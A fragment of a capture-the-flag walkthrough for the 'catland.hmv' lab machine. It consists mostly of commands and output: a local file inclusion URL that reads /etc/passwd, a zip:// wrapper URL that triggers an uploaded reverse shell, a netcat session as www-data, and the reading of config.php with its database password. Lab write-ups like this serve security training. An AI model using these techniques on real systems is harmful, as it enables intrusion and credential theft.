 ### LFI

```url
http://admin.catland.hmv/user.php?page=/etc/passwd
```

## Reverse Shell

```url
http://admin.catland.hmv/user.php?page=zip://uploads/rshell%23zip
```

```bash
$ nc -lvnp 4444           
listening on [any] 4444 ...
connect to [192.168.1.6] from (UNKNOWN) [192.168.1.12] 60800
Linux catland.hmv 5.10.0-20-amd64 #1 SMP Debian 5.10.158-2 (2022-12-13) x86_64 GNU/Linux
 17:26:52 up 10 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ cd /var/www/
$ ls
admin
html
$ cd admin
$ ls -la
total 40
drwxr-xr-x 3 www-data www-data 4096 Jan  7 14:29 .
drwxr-xr-x 4 root     root     4096 Dec 31 13:03 ..
-rw-r--r-- 1 www-data www-data  853 Jan  7  2022 card.php
-rw-r--r-- 1 www-data www-data  255 Jan  7  2022 config.php
-rw-r--r-- 1 www-data www-data 1619 Jan  7  2022 index.php
-rw-r--r-- 1 www-data www-data   84 Jan  7  2022 redirect.js
-rw-r--r-- 1 www-data www-data  527 Jan  7  2022 style.css
-rw-r--r-- 1 www-data www-data 1731 Jan  7  2022 upload.php
drwxr-xr-x 2 www-data www-data 4096 Jan 28 19:00 uploads
-rw-r--r-- 1 www-data www-data  864 Jan  7  2022 user.php
$ cat config.php
<?php

$hostname = "localhost";
$database = "catland";
$username = "admin";
$password = "catlandpassword123";
$conn = mysqli_connect($hostname, $username, $password, $database);
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}

?>
$ 
```
